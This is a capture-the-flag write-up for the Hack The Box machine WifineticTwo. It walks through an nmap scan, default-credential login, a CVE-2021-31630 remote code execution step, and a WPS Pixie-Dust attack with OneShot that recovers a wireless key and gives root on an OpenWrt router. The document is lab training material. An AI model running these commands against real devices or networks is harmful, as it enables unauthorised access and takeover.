






<h1 align="center"> WifineticTwo </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/593">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/8080](#2-tcp-8080)
3. [CVE-2021-31630 - RCE](#3-cve-2021-31630---rce)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.7
Nmap scan report for 10.10.11.7
Host is up (0.13s latency).
Not shown: 975 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
82/tcp    filtered xfer
783/tcp   filtered spamassassin
1046/tcp  filtered wfremotertm
1151/tcp  filtered unizensus
1812/tcp  filtered radius
2126/tcp  filtered pktcable-cops
2602/tcp  filtered ripd
2920/tcp  filtered roboeda
3546/tcp  filtered unknown
5510/tcp  filtered secureidprop
5566/tcp  filtered westec-connect
5815/tcp  filtered unknown
5850/tcp  filtered unknown
6000/tcp  filtered X11
7999/tcp  filtered irdmi2
8031/tcp  filtered unknown
8080/tcp  open     http-proxy     Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.10.11.7:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.Zff-Wg.GYnOXIutSBSZdgVitt6mu1jI-mQ; Expires=Mon, 18-Mar-2024 08:47:02 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Mon, 18 Mar 2024 08:42:02 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 302 FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 219
|     location: http://0.0.0.0:8080/login
|     vary: Cookie
|     set-cookie: session=eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ.Zff-WQ.Y02JmwNUvfT7gB1-fnfEMzxYbv8; Expires=Mon, 18-Mar-2024 08:47:01 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Mon, 18 Mar 2024 08:42:01 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to target URL: <a href="/login">/login</a>. If not click the link.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     content-type: text/html; charset=utf-8
|     allow: HEAD, OPTIONS, GET
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.Zff-WQ.WLp7uSvvK_3ksRUfbEHKJczL5lc; Expires=Mon, 18-Mar-2024 08:47:01 GMT; HttpOnly; Path=/
|     content-length: 0
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Mon, 18 Mar 2024 08:42:01 GMT
|   RTSPRequest: 
|     HTTP/1.1 400 Bad request
|     content-length: 90
|     cache-control: no-cache
|     content-type: text/html
|     connection: close
|     <html><body><h1>400 Bad request</h1>
|     Your browser sent an invalid request.
|_    </body></html>
8093/tcp  filtered unknown
24800/tcp filtered unknown
32769/tcp filtered filenet-rpc
44176/tcp filtered unknown
51103/tcp filtered unknown
54045/tcp filtered unknown
56738/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=3/18%Time=65F7FE58%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,24C,"HTTP/1\.0\x20302\x20FOUND\r\ncontent-type:\x20text/htm
SF:l;\x20charset=utf-8\r\ncontent-length:\x20219\r\nlocation:\x20http://0\
SF:.0\.0\.0:8080/login\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfZn
SF:Jlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlfQ\.Zff-WQ\.Y02JmwNUvfT7gB1-fnfEM
SF:zxYbv8;\x20Expires=Mon,\x2018-Mar-2024\x2008:47:01\x20GMT;\x20HttpOnly;
SF:\x20Path=/\r\nserver:\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x
SF:20Mon,\x2018\x20Mar\x202024\x2008:42:01\x20GMT\r\n\r\n<!DOCTYPE\x20HTML
SF:\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>Red
SF:irecting\.\.\.</title>\n<h1>Redirecting\.\.\.</h1>\n<p>You\x20should\x2
SF:0be\x20redirected\x20automatically\x20to\x20target\x20URL:\x20<a\x20hre
SF:f=\"/login\">/login</a>\.\x20\x20If\x20not\x20click\x20the\x20link\.")%
SF:r(HTTPOptions,14E,"HTTP/1\.0\x20200\x20OK\r\ncontent-type:\x20text/html
SF:;\x20charset=utf-8\r\nallow:\x20HEAD,\x20OPTIONS,\x20GET\r\nvary:\x20Co
SF:okie\r\nset-cookie:\x20session=eyJfcGVybWFuZW50Ijp0cnVlfQ\.Zff-WQ\.WLp7
SF:uSvvK_3ksRUfbEHKJczL5lc;\x20Expires=Mon,\x2018-Mar-2024\x2008:47:01\x20
SF:GMT;\x20HttpOnly;\x20Path=/\r\ncontent-length:\x200\r\nserver:\x20Werkz
SF:eug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Mon,\x2018\x20Mar\x202024\x2
SF:008:42:01\x20GMT\r\n\r\n")%r(RTSPRequest,CF,"HTTP/1\.1\x20400\x20Bad\x2
SF:0request\r\ncontent-length:\x2090\r\ncache-control:\x20no-cache\r\ncont
SF:ent-type:\x20text/html\r\nconnection:\x20close\r\n\r\n<html><body><h1>4
SF:00\x20Bad\x20request</h1>\nYour\x20browser\x20sent\x20an\x20invalid\x20
SF:request\.\n</body></html>\n")%r(FourOhFourRequest,224,"HTTP/1\.0\x20404
SF:\x20NOT\x20FOUND\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncon
SF:tent-length:\x20232\r\nvary:\x20Cookie\r\nset-cookie:\x20session=eyJfcG
SF:VybWFuZW50Ijp0cnVlfQ\.Zff-Wg\.GYnOXIutSBSZdgVitt6mu1jI-mQ;\x20Expires=M
SF:on,\x2018-Mar-2024\x2008:47:02\x20GMT;\x20HttpOnly;\x20Path=/\r\nserver
SF::\x20Werkzeug/1\.0\.1\x20Python/2\.7\.18\r\ndate:\x20Mon,\x2018\x20Mar\
SF:x202024\x2008:42:02\x20GMT\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W
SF:3C//DTD\x20HTML\x203\.2\x20Final//EN\">\n<title>404\x20Not\x20Found</ti
SF:tle>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL\x20was\x20not\x
SF:20found\x20on\x20the\x20server\.\x20If\x20you\x20entered\x20the\x20URL\
SF:x20manually\x20please\x20check\x20your\x20spelling\x20and\x20try\x20aga
SF:in\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 18 09:42:17 2024 -- 1 IP address (1 host up) scanned in 45.12 seconds
```

## 2. TCP-8080

There is an active service on port 8080 ! 

<p align="center">
  
</p>

Searching the internet for the service, I found that there are default credentials.

<p align="center">
  
</p>

Using the found credentials, we enter the service.

<p align="center">
  
</p>

## 3. CVE-2021-31630 - RCE

Searching the internet for an exploit I found that [CVE-2021-31630](https://nvd.nist.gov/vuln/detail/CVE-2021-31630) exists which reports the possibility of carrying out an RCE. The article shows a [python script](script/CVE-2021-31630.py) of which I modified line 34 by inserting the name of the *.st* file reported on the site and subsequently executed.

<p align="center">
  
</p>

In */root* there is the user flag.

We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

## 4. User to ROOT

For privilege escalation, given the name of the machine, I started looking for some wifi pentesting methodology, when I found a guide on [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi). First let's look at the interfaces available with the `iwconfig` command.
```bash
root@attica01:/tmp# iwconfig
iwconfig
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          
lo        no wireless extensions.

eth0      no wireless extensions.
```

Noticing the presence of the **wlan0** interface, we analyze it by looking for available WiFi using the `iw dev wlan0 scan` command.

```bash
root@attica01:/tmp# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 1389.048s [boottime]
        TSF: 1710754164951395 usec (19800d, 09:29:24)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0 
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:  
                 * Model:  
                 * Model Number:  
                 * Serial Number:  
                 * Primary Device Type: 0-00000000-0
                 * Device name:  
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

Seeing the information received, on the guide found, it mentions an attack called [Pixie-Dust Attack](https://security.stackexchange.com/questions/149178/what-is-pixie-dust-attack-on-router). In the guide, in the [section](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi#wps-pixie-dust-attack) which deals with the attack, the tool is also reported [ OneShot-C](https://github.com/nikita-yfh/OneShot-C) which automates the attack. 

Then I upload the compiled file through a python server and run it with sudo, and:

* the interface with the -i option;
* the BSSID (Basic Service Set Identifier) with the -b option;
* -K to identify the attack.


```bash
root@attica01:/tmp# sudo ./oneshot -i wlan0 -b 02:00:00:00:01:00 -K
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: 12a26e9723ebc5765d9814a74f2269fe
[*] Building Message M2
[P] PKR: 062e258070376dd42f20a41c262c748272e317d0854db67c2689b642294af7e43779cae09b62b0b2b9ba5a7372663973118a2342dfef710b8751444c8a12c5d74e11deb23eba93792be1844bc555dd16df61f4a3ab9608fb27e629e25828c636b5e8a2d926d392791046495a983db5d28576f60b61b512f66d4ba36cd30112301326efdb9ee32ba5eabe2aa00da58438a45874a276e5442827d9354da2089a25b3ade8262f206151a50aa345c4d510713ad43564af6d5910c2ac6aad9e3cfb2c
[P] PKE: 52c474f0e7eb5f9ed674e606a9a3f21181a479cc0e7835464816ca0777a797c1bcee230db9053f2d5daaaeb94886d5f91c2daa45432d3f1749c9a53e10e62ed55026f19cbedb74f576e14ec22f6521c380e1c6243dcdb89f8a92a8b03f48d019d6d23adac310c78d60b29dc08bb22fb4d45a7e7ad3cb6c4b7a7fcb38e78cf2d4dd8960b5876baf45b3bf17e93004461807263c81d45f6ba1d6963d888d17e21a498df6d32a9ebe177582d5fc3181ad00cf3a452f1f518109368448226f47a0b0
[P] Authkey: 07676c49566cdb8749b04f0dc69908f3f349a67b735743789fd344324584d3d4
[*] Received WPS Message M3
[P] E-Hash1: a461c163bcfe950ad5e17f1f1465a38c5f563b8250563fb593fca76df68f388c
[P] E-Hash2: f20c65b749a8ca6479e8f824957d638c1e9250c4dd2c2790111f544b916259c3
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter
```

Now we have all the information that we need to connect to Wifi.

So, we have to create a configuration file and to do this we can use [wpa_passphrase](https://linux.die.net/man/8/wpa_passphrase) passing the SSID and password as parameters.

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config`

After that, we can use [wpa_supplicant](https://linux.die.net/man/8/wpa_supplicant) to control the wireless connection, with the following options:

* -B to run daemon in the background;
* -c <filename> to set the configuration file;
* -i <interface> to set the interface.

The command is therefore: `wpa_supplicant -B -c config -i wlan0`.

Also, since no IP is assigned to the wlan0 interface, we assign it manually with the command `ifconfig wlan0 192.168.1.5 netmask 255.255.255.0`.

So let's try to connect via ssh to *192.168.1.1* (the default IP for the router).

```bash
root@attica01:/tmp# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# id
uid=0(root) gid=0(root)
```

In the home directory there is the root flag.


## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/593">
        
    </a>
</p>